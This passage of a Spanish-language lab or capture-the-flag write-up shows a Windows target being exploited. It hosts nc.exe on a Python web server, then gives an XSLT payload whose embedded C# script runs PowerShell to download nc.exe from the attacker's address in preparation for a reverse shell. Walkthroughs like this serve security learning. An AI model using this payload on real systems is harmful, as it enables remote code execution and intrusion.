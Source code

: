 ![8](images/8.png)

Como podemos ver nos trae los directorios raíz del sistema. Entonces nuestro segundo paso sera subir **nc.exe** al sistema para obtener una reverse shell.

Preparamos un servidor web simple con python.

- `locate nc.exe`
- `cp /usr/share/windows-resources/binaries/nc.exe .`
- `sudo python3 -m http.server 80`

![9](images/9.png)

Mandamos el exploit para descargar el **nc.exe** al sistema.

```
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml(){ string cmd = "iwr http://10.10.14.248/nc.exe -Outfile c:\\Microsoft\\nc.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }</msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/></xsl:template></xsl:stylesheet>
```
